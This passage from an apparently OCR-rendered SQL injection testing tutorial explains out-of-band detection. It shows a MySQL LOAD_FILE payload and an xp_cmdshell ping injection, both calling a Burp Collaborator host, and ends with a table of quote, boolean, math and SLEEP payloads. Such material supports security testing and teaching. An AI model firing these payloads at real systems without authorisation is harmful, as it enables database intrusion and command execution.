 ### 🧪 Example:

Inject a payload that tells the server to make an external request:


MySQL:

```sql

LOAD_FILE('\\\\your-collaborator.burpcollaborator.net\\test.txt')

```


DNS lookup (common across DBs):

```sql

http://your-collaborator.burpcollaborator.net

```

You'd inject it like this:

```

https://example.com/product?id=123'; EXEC xp_cmdshell('ping your-collaborator.burpcollaborator.net')--

```

### 💡 What Happens Behind the Scenes?

- The database tries to connect to a domain you control.
- You use a tool like **Burp Collaborator** to monitor if any requests come in.
- If you get a hit → **SQL injection confirmed!**

### 🛡️ Why This Works:

Sometimes you can't see the effects of SQL injection at all. But if the database reaches out to your server, you know it ran your code.

## 🧠 Summary Table
| Technique | Example Input | Why It Works |
|----------|----------------|---------------|
| `'` | `'` | Breaks SQL syntax – look for errors |
| Math expr | `5+5` | Makes SQL evaluate expressions |
| Boolean | `OR 1=1` / `OR 1=2` | Changes logic – look for behavior difference |
| Delay | `SLEEP(10)` | Triggers time delay – look for slow response |
| OAST | `burpcollaborator.net` | Forces DB to call external server |

## 🧩 Final Tip:
